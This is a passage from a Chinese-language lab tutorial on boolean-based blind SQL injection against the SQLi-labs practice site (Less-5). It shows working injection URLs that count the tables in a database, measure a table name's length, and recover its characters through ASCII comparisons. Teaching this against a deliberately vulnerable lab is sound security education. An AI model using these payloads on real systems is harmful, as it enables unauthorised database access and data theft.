 #### 3.3.5.5.**猜测数据库表的数量**

在security中表只有4张表，从0开始计算，实际只能到3，1而不能到4，1，所以当到4，1的时候大于0就不成立，所以无显就能判断出该数据库只有4张表。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) > 0 --+

![img](assets/h8CpoVZsQm7YET3.jpg) 

#### 3.3.5.6.**猜测数据库表名的长度**

判断长度，例如上面的链接，大于5，实际在数据库中第一个表是6位，而这里大于5是正确的所以回显正常，这样可以判断表有多少位。当然也可以直接使用等于来进行判断。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema='security' limit 0,1))>5--+

![img](assets/7CoeGaAIgzvXLwn.jpg) 

若需要猜测第二张表怎么办？

把limit 0,1修改为limit 1,1就可以查询第二张表的长度了。第二张表的长度是8位，可以修改后进行测试。

#### 3.3.5.7.**猜测数据库表名**

如何猜测第一张表的第一个字母？

第一个表是emails，ascii码中e是101，那么上面的等于101页面回显正常。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+

![img](assets/IDiBGp7KjcwmOF4.jpg) 
